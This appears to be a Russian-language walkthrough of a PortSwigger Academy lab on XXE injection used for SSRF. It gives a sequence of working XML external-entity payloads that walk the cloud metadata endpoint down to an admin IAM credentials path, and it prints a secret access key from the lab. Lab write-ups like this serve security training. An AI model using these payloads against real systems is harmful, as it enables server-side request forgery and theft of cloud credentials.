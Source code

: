 перейдем на случайную карточку товара и проверим количество товара
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/2.%20Exploiting%20XXE%20to%20perform%20SSRF%20attacks/pics%20for%20walktrough/1.png)
видим, что посылается XML запрос
```
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId>2</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/2.%20Exploiting%20XXE%20to%20perform%20SSRF%20attacks/pics%20for%20walktrough/2.png)
и отправим его в `repeater` 
модифицируем запрос с использованием уязвимость SSRF
```
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/2.%20Exploiting%20XXE%20to%20perform%20SSRF%20attacks/pics%20for%20walktrough/3.png)
в ответ получим "Invalid product ID: latest". 
`latest` есть директория, до которой мы достучались
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```
в ответ получим 
`"Invalid product ID: meta-data"`
так дойдем до конца
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/2.%20Exploiting%20XXE%20to%20perform%20SSRF%20attacks/pics%20for%20walktrough/4.png)
финальный запрос будет выглядеть следующим образом
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```
и получим желанный JSON в котором находится секретные админские креды, и вместе с ним получим уведомление об успешно выполненной лабораторной работе
SecretAccessKey" : "jmXiX01ly7IdKQFsZ32uI97bhmstZrVkt5os2DYI" и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/2.%20Exploiting%20XXE%20to%20perform%20SSRF%20attacks/pics%20for%20walktrough/5.png)
